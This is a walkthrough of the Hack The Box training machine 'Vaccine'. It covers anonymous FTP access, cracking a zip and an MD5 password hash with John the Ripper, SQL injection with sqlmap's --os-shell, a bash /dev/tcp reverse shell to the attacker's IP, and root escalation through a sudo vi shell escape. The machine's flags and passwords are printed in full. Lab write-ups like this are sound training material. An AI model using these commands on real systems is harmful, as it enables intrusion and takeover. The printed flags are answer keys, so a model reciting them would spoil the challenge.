 # Vaccine
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Besides SSH and HTTP, what other service is hosted on this box?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** FTP

**2. This service can be configured to allow login with any password for specific username. What is that username?**
- You can login into FTP without an account with username `anonymous` and password `anonymous@domain.com`  
![ano](img/anonymous.png)
> **Answer:** anonymous

**3. What is the name of the file downloaded over this service?**
- After logging in, list files and you see `backup.zip`. Download this one by `get` command.  
![get](img/get.png)
> **Answer:** backup.zip
- But now unzipping this file requires a password.  
![unzip](img/unzip1.png)

**4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> **Answer:** zip2john
- Run `zip2john backup.zip > hash` to extract the hashed password.  
![zip2](img/zip2.png)
- Use **John The Ripper** to crack this hash string (you can also add wordlists if needed) and it returns `741852963` as the password we're looking for  
![john](img/john.png)
- Re-unzip this file using the cracked password, revealing 2 files: index.php and style.css  
![unzip](img/unzip2.png)

**5. What is the password for the admin user on the website?**
- In index.php, a hashed password for admin is found.  
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
- Using **john** with RockYou wordlist, we get `qwerty789` as password for `admin`  
![john](img/johnadmin.png) 
> **Answer:** qwerty789

**6. What option can be passed to sqlmap to try to get command execution via the sql injection?**
- Run  `sqlmap -h` to list available options  
![os](img/os.png)
> **Answer:** --os-shell

**7. What program can the postgres user run as root using sudo?**
- In our scan report, we can see that this machine has port 80 open. Visit `http://[IP-Address]` and log in with `admin` and `qwerty789`. This leads to the Visit http://[IP-Address] and log in with admin and qwerty789. This leads to the Admin Dashboard.  
![dash](img/dash.png)
- This page shows a table with information such as name, type,... of cars, and also has a search box.
- When we type some text in this box and click **search**, the parameter in the URL will change to our text  
![search](img/search.png)
- Run `sqlmap -u 'http://[IP-Address]/dashboard.php?search=conmeo' --cookie 'PHPSESSID=[cookie-value]' --os-shell`. 
- If you run this command and encounter error like **unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported**, add `--flush-session --time-sec=20` at the end. That works for me =)))) Read more [here](https://forum.hackthebox.com/t/machine-name-vaccine-stuck-on-getting-sql-code-execution-shell/2513/58)
![critical](img/critical.png)
- Now use **Netcat** to create a **Reverse Shell**
    - On our machine, run `nc -lvnp 4444`
    - On target machine (os-shell), run `bash -c "bash -i >& /dev/tcp/[our-IP-Address]/[port] 0>&1"` 
    ![ev](img/rev.png)
- Once connected, we can remotely excecute on the target machine. After wandering around, I found some file in `/var/www/html`
![cd](img/cd.png)
- Looking for **password** in `dashboard.php` and we have this `P@s5w0rd!`
![pw](img/pw.png) 
- SSH into PostgreSQL with `ssh @[IP-Address]`. Answer **yes** and enter the above password. Here we are using as user `postgres@vaccine`.
![ssh](img/ssh.png)
- Run `sudo -l` to find out all command we run as root. What we can see from the ouput is that we can use `vi` to edit a file
![vi](img/vi.png)

> **Answer:** vi

## Submit user flag
- The user flag should be located in `/var/lib/postgresql` directory  
![flag](img/flag.png)
- **User flag:** ec9b13ca4d6229cd5cc1e09980965bf7

## Submit root flag
- Now edit `/etc/postgresql/11/main/pg_hba.conf` with `vi`, then add: 
```
:set shell=/bin/sh
:shell
```
- This spawns a shell, allowing root access.  
![set](img/set.png)
- After that we can run as normal root user. The root flag is located in `root` directory
![flag](img/flag1.png)  
- **Root flag:** dd6e058e814260bc70e9bbdef2715849

